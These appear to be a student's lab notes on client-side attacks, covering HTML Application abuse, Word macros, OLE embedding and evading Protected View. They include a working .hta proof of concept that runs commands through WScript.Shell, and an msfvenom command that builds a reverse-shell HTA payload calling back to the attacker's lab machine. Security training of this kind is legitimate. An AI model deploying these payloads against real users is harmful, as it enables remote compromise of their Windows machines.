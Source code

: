 # 13.2.3 Leveraging HTML Application
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use msfvenom to generate a HTML Application and use it to compromise your Windows client.**

If a file is saved as with an .hta instead of an .htm extension, internet explorer will automatically interpret it as HTML and off the ability to execute using mshta.exe. Since the HTML application is being executed outside the safety of the browser, we are free to use dangerous legacy code that may normally be blocked within the browser. For the following example we are going to leverage ActiveXObjects.

The following PoC should launch the calculator in our test environment:
```
<html>
<body>

<script>

  var c= 'calc.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</body>
</html>
```

Placing this in our html folder on our kali machine and then navigated to the poc.hta endpoint on our windows test machine and we see the following:
![[Pasted image 20220715172425.png]]

When we run the PoC we get a successful calc.exe command:
![[Pasted image 20220715172534.png]]


Now we can move into utilizing msfvenom to alter our hta page and create a new powershell based payload. We can use the following command:
`sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/reverse.hta`

Once generated, we need to setup a listener on the specified port and navigate to the endpoint on our Windows test machine and we will get a reverse shell.

![[Pasted image 20220715173157.png]]
![[Pasted image 20220715173122.png]]

**2.  Is it possible to use the HTML Application attack against Microsoft Edge users, and if so, how?**
Yes, upon testing with Microsoft Edge the hta file was successful in obtaining a reverse shell.

![[Pasted image 20220715173422.png]]
![[Pasted image 20220715173441.png]]
Upon clicking "Run" we recieve our connection.
![[Pasted image 20220715173521.png]]


# 13.3.3 Microsoft Word Macro
#### Exercises
**1. Use the PowerShell payload from the HTA attack to create a Word macro that sends a reverse shell to your Kali system.**



# 13.3.5 Object Linking and Embedding
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use the PowerShell payload to create a batch file and embed it in a Microsoft Word document to send a reverse shell to your Kali system.**


# 13.3.7Evading Protected View
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Trigger the protection by Protected View by simulating a download of the Microsoft Word document from the Internet.**
**2.  Reuse the batch file and embed it in a Microsoft Publisher document to receive a reverse shell to your Kali system.**
**3.  Move the file to the Apache web server to simulate the download of the Publisher document from the Internet and confirm the missing Protected View.**